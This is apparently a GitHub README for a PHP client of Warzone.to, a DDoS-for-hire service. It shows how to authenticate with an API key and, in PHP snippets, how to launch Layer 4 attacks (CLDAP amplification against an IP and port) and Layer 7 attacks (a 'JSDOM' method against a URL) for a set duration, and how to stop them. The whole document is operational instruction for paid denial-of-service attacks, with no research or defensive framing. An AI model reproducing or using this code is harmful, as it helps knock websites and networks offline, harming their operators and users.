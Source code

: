 # Warzone.to API
Sample API usage of Warzone.to

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://warzone.to/methods

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = "12";
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = "80";
$time = 15;
$method = "CLDAP";

/* Parameters : IPv4 , Port , Time , Method */
$response = $api->startL4($host, $port, $time, $method);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = "15";
$method = "JSDOM";

/* Parameters : URL , Time , Method */
$response = $api->startL7($host, $time, $method);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
